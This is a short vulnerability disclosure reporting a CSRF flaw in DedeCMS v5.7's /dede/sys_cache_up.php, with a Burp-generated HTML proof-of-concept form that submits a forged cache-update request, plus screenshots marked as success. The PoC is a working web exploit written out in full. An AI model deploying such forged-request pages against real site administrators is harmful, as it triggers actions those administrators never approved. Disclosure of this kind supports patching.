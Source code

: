 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/sys_cache_up.php
![1](https://github.com/777erp/cms/assets/113673221/c1eebc53-d7e2-432b-b8e2-6d3b569e390b)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/sys_cache_up.php">
      <input type="hidden" name="dopost" value="ok" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/777erp/cms/assets/113673221/a33e8253-26a7-41d5-b1a7-8a691e84b83b)


Successed

![3](https://github.com/777erp/cms/assets/113673221/4e4132d5-99b2-4edf-8e1e-8b51e71edee3)
